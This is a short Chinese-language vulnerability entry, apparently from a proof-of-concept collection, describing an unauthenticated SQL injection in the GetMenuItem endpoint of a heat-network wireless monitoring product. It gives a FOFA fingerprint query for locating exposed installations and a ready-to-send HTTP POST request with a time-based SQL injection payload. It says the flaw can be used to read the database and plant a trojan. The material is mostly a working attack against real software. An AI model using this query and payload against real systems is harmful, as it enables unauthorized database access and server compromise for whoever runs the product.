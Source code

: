## 热网无线监测系统GetMenuItem存在SQL注入漏洞

热网无线监测系统 GetMenuItem 接口处存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="Downloads/HDPrintInstall.rar" || body="skins/login/images/btn_login.jpg"
```

## poc

```javascript
POST /DataSrvs/UCCGSrv.asmx/GetMenuItem HTTP/1.1
Host: 
accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
 
name=1') waitfor delay '0:0:5'-- +
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409081939869.png)